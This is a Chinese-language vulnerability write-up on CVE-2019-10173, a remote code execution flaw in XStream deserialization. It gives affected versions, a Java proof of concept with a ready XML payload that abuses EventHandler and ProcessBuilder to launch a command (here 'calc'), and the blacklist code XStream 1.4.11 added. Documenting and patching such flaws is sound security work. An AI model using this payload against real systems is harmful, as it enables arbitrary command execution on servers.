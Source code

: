 （CVE-2019-10173）Xstream 远程代码执行漏洞
==========================================

一、漏洞简介
------------

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

二、漏洞影响
------------

XStream \<= 1.4.6

XStream = 1.4.10

三、复现过程
------------

### poc

    package com.bigo;

    import com.thoughtworks.xstream.XStream;

    import java.beans.EventHandler;
    import java.io.IOException;
    import java.util.Set;
    import java.util.TreeSet;

    /**
     * Created by cfchi on 2019/7/26.
     */
    public class Main {
        public static String expGen(){
            XStream xstream = new XStream();
            Set<Comparable> set = new TreeSet<Comparable>();
            set.add("foo");
            set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
            String payload = xstream.toXML(set);
            System.out.println(payload);
            return payload;
        }
        public static void main(String[] args) throws IOException {
            expGen();
            XStream xStream = new XStream();
            String payload = "<sorted-set>\n" +
                    "    <string>foo</string>\n" +
                    "    <dynamic-proxy>\n" +
                    "    <interface>java.lang.Comparable</interface>\n" +
                    "        <handler class=\"java.beans.EventHandler\">\n" +
                    "            <target class=\"java.lang.ProcessBuilder\">\n" +
                    "                <command>\n" +
                    "                    <string>cmd.exe</string>\n" +
                    "                    <string>/c</string>\n" +
                    "                    <string>calc</string>\n" +
                    "                </command>\n" +
                    "            </target>\n" +
                    "     <action>start</action>"+
                    "        </handler>\n" +
                    "    </dynamic-proxy>\n" +
                    "</sorted-set>\n";
           xStream.fromXML(payload);
        }
    }

### 1.4.7版本白名单

![](./resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId26.png)

### 1.4.10版本，黑名单未开启

![](./resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId28.png)

### 1.4.11版本，黑名单开启

#### 黑名单

    private class InternalBlackList implements Converter {
        private InternalBlackList() {
        }

        public boolean canConvert(Class type) {
            return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
        }

        public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
            throw new ConversionException("Security alert. Marshalling rejected.");
        }

        public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
            throw new ConversionException("Security alert. Unmarshalling rejected.");
        }
    }

![](./resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId31.png)

参考链接
--------

> http://www.polaris-lab.com/index.php/archives/658/
